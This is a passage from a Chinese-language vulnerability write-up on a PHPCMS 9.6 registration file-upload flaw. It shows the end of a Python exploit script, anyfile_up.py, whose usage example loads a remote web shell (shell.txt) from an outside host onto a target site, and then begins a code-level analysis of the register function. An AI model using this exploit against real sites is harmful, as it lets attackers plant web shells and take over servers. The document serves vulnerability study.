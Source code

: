 ```
   if len(sys.argv) == 3:
       return_url = anyfile_up(sys.argv[1],sys.argv[2])
       print('seccess! upload file url: ', return_url)
   else:
       message = \
       """
      python3 anyfile_up.py [上传内容URL地址] [目标URL]
      example: python3 anyfile_up.py http://www.tao.com/shell.txt http://www.phpcms96.com
      """
       print(message)
```

运行效果如下图：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCeNIvnItP7vIiao2zKuZ6x79DaAk5SBvSGQRjDaOyic26GQHxiandnxZ5G1vibibvicFsZEbfRAcudwfPQ/640?wx_fmt=png)

漏洞分析
----

这个漏洞存在于用户注册处，通过上面请求的地址（`/index.php?m=member&c=index&a=register&siteid=1`）, 定位处理请求的函数为`register`, 位于文件`phpcms/modules/member/index.php`33 行处。

为了更好的理解漏洞的原理和利用的巧妙之处，我们就先看看正常的注册流程。

```
// 61-79
$userinfo = array();
$userinfo['encrypt'] = create_randomstr(6);

$userinfo['username'] = (isset($_POST['username']) && is_username($_POST['username'])) ? $_POST['username'] : exit('0');
$userinfo['nickname'] = (isset($_POST['nickname']) && is_username($_POST['nickname'])) ? $_POST['nickname'] : '';

$userinfo['email'] = (isset($_POST['email']) && is_email($_POST['email'])) ? $_POST['email'] : exit('0');
$userinfo['password'] = (isset($_POST['password']) && is_badword($_POST['password'])==false) ? $_POST['password'] : exit('0');

$userinfo['email'] = (isset($_POST['email']) && is_email($_POST['email'])) ? $_POST['email'] : exit('0');

$userinfo['modelid'] = isset($_POST['modelid']) ? intval($_POST['modelid']) : 10;
$userinfo['regip'] = ip();
$userinfo['point'] = $member_setting['defualtpoint'] ? $member_setting['defualtpoint'] : 0;
$userinfo['amount'] = $member_setting['defualtamount'] ? $member_setting['defualtamount'] : 0;
$userinfo['regdate'] = $userinfo['lastdate'] = SYS_TIME;
$userinfo['siteid'] = $siteid;
$userinfo['connectid'] = isset($_SESSION['connectid']) ? $_SESSION['connectid'] : '';
$userinfo['from'] = isset($_SESSION['from']) ? $_SESSION['from'] : '';
```

上面代码对用户信息进行了处理，130 行前的代码就是获取一下信息，分析这次漏洞来说意义不大。直接下断点到 130 行，然后`F9`跳到此处，代码如下：
